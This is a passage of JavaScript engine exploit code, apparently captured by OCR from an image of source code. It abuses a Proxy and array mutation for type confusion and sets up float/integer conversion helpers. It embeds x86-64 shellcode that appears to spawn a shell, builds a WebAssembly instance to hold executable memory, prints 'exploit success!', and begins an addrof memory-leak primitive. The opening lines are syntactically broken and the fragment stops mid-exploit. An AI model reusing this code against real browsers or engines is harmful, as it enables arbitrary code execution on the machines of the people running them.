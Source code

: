 ```
            });
            (function() {
                callFn = "u0041".repeat(1024 * 32); // mutate "run"
                v3 = [1.1, 2.2, 3.3]; // now "proxy" becomes a packed array.
                v4 = [{}].slice();
                v5 = [4.4];
            })
        })) =&gt; (1))()
    }, ...args) =&gt; (1));
    Reflect[prop](proxy, ...args);
}

callFn((() =&gt; (run("construct", []))));
callFn((() =&gt; (run("prop1"))));


function test() {

    let convert = new ArrayBuffer(0x8);
    let f64 = new Float64Array(convert);
    let u32 = new Uint32Array(convert);


    function d2u(v) {
        f64[0] = v;
        return u32;
    }

    function u2d(lo, hi) {
        u32[0] = lo;
        u32[1] = hi;
        return f64[0];
    }

    function hex(d) {
        let val = d2u(d);
        return ("0x" + (val[1] * 0x100000000 + val[0]).toString(16));
    }


    let shellcode = [0x6a6848b8, 0x2f62696e, 0x2f2f2f73, 0x504889e7, 0x68726901, 0x1813424, 0x1010101, 0x31f656be, 0x1010101, 0x81f60901, 0x1014801, 0xe6564889, 0xe631d2b8, 0x01010101, 0x353a0101, 0x01900f05];
    let wasm_code = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 7, 1, 96, 2, 127, 127, 1, 127, 3, 2, 1, 0, 4, 4, 1, 112, 0, 0, 5, 3, 1, 0, 1, 7, 21, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 8, 95, 90, 51, 97, 100, 100, 105, 105, 0, 0, 10, 9, 1, 7, 0, 32, 1, 32, 0, 106, 11]);
    let wasm_mod = new WebAssembly.Instance(new WebAssembly.Module(wasm_code), {});
    let f = wasm_mod.exports._Z3addii;

    run[18] = 0x41414141;
    if(proxy.length == 0x41414141){
    print("exploit success!n");
}
    else{
    print("exploit fail TTn");
}

    let addrof = function(obj) {
        v4[0] = obj;
        var leak = proxy[26];
        return leak;
    }

```